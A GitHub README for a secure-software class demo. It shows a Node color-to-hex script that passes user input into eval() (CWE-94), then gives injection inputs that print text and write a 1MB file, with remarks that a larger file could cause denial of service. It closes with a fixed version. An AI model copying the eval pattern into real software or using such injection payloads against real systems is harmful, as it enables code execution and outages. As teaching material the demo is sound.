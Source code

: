 # JavaScript `eval()` Code Injection Example  

## Description  
This exploits a Node script which is vulnerable to code injection ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)) done for my Engineering Secure Software class as a demo.  I did a quick writeup for the vulnerability [here](code-injection-writeup.pdf)

## Instructions
I have included a getHexValue.js, a script which will take a sting of a color in lowercase and output a hex value that matches that color, for example:
```
Enter a color in lowercase to get its hex value (e.x. blue):  
purple
#800080
```
The bulk of the script's logic can be found here:
``` javascript
var colorHexes = {
    red: '#FF0000',
    yellow: '#FFFF00',
    blue: '#0000FF',
    black: '#000000',
    white: '#FFFFFF',
    green: '#008000',
    purple: '#800080',
    orange: '#FFA500'
};

r.question('Enter a color in lowercase to get its hex value (e.x. blue): ', function (statement) {
    console.log(eval('colorHexes.' + statement));
    process.stdin.pause();
});
```
This takes the user input and places it right into an `eval()` call.  `eval()` will take the string (including the user input) and execute it as JavaScript code.  This statement will get the property of the `colorHexes` object that matches the input to easily map inputted colors to outputted hex values.  The problem with this, however, is that the user can end the line being evaluated using a `;` and execute arbitrary JavaScript code.

For example: you can get the console to output a "Hello World!" like so:
```
Enter a color in lowercase to get its hex value (e.x. blue):
>yellow;console.log('Hello World!');
Hello World!
undefined
```
Or you can take this script:
``` javascript
var fs=require("fs"),
stream=fs.createWriteStream("bigFile.txt",{flags:"w"});
const megabyte="1000000",
outputStr="thisisabigfile";
for(var i=0;i<megabyte/outputStr.length;i++) {
	stream.write("thisisabigfile");
}
```
Which will create a 1MB file called "bigFile.txt", and exploiting the script into executing it like so:
```
Enter a color in lowercase to get its hex value (e.x. blue):
>purple; var fs=require("fs"),stream=fs.createWriteStream("bigFile.txt",{flags:"w"});const megabyte="1000000",outputStr="thisisabigfile";for(var i=0;i<megabyte/outputStr.length;i++)stream.write("thisisabigfile");
false
```
If you were to modify this script slightly, you could create a much larger file (1GB, 1TB, etc.) which could lead to the machine the server is being hosted on to have poor performance due, or even crash altogether, causing a denial of service.  

Another exploit could use the [Node OS module](https://nodejs.org/api/os.html) to expose information of the machine that the Node server is running on.  When arbitrary code can be executed on a server, any number of things can happen to compromise the confidentiality or integrity of the data on the server - or to harm the availability of that server.

## Makefile
I've included a Makefile with two targets:  
* `default` will give the intended input into the program once, then exploit the program to call a "secret function"
* `bigfile` will exploit the script create a 1MB file (like explained above) called `bigFile.txt`

#### Note
This Makefile **does not** work with Node version 0.6.12 (the version currently on the SE lab machines), I have tested it and had it work on Node version 4.6.1.

## Fixed version
getHexValueFixed.js changes the core logic to look like this
``` javascript
r.question('Enter a color to get its hex value (e.x. blue): ', function (statement) {
    statement = statement.toLowerCase();
    if (statement && colorHexes[statement]) {
      console.log(colorHexes[statement]);
    } else {
      console.log('Can\'t find that color in the system, try Googling it!')
    }
    process.stdin.pause();
});
```
So that the `colorHexes` object is still used as a reference to the colors so as to avoid writing several if/switch conditions, but the syntax `object.property` is replaced with `object["property"]`
